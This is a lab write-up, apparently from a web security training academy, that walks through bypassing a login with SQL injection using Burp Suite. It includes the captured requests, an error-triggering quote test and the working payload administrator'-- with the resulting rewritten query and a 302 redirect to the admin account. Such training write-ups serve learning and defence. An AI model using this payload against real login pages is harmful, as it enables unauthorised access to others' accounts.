



# Lab: SQL injection vulnerability allowing login bypass

## Lab Description
This lab contains a SQL injection vulnerability in the login function.

The objective is to exploit the SQL injection flaw to log in to the application
as the `administrator` user without knowing the password.

## Step 1 — Intercept the Login Request
Navigate to the login page of the application.

Submit a test login using invalid credentials:
- Username: test
- Password: test

Capture the login request using Burp Suite and send it to Repeater.

Example request:

POST /login HTTP/2
Host: 0a6400b003135753831f5042008900f6.web-security-academy.net

username=test&password=test

## Step 2 — Identify SQL Injection Vulnerability
To test whether the login parameters are vulnerable to SQL injection,
a single quote character (`'`) was added to the `username` parameter.

Modified request:

username=test'&password=test

Result:
- HTTP Status Code: 500 Internal Server Error
- The application returned an unexpected server error

This behavior indicates that user input is being directly concatenated
into the SQL query without proper sanitization.

Screenshots:

Conclusion:
The `username` parameter is vulnerable to SQL injection.

## Step 3 — Exploit SQL Injection to Bypass Authentication
After confirming that the `username` parameter is vulnerable to SQL injection,
the next step is to bypass the authentication mechanism and log in as the
`administrator` user.

### Payload Used
The following payload was injected into the `username` parameter:

administrator'--

The `password` parameter can contain any arbitrary value.

### Modified Request
username=administrator'--&password=test

This payload modifies the backend SQL query logic as follows:

SELECT * FROM users
WHERE username = 'administrator'--'
AND password = 'test'

The double dash (`--`) comments out the remaining part of the SQL query,
effectively removing the password check.

### Result
- HTTP Status Code: 302 Found
- Redirected to: /my-account?id=administrator
- A new authenticated session cookie was issued

The application successfully logs in as the `administrator` user,
and the lab is marked as solved.

## Evidence
Burp Suite Repeater — Successful Authentication Bypass  
Web Application — Administrator Account Access

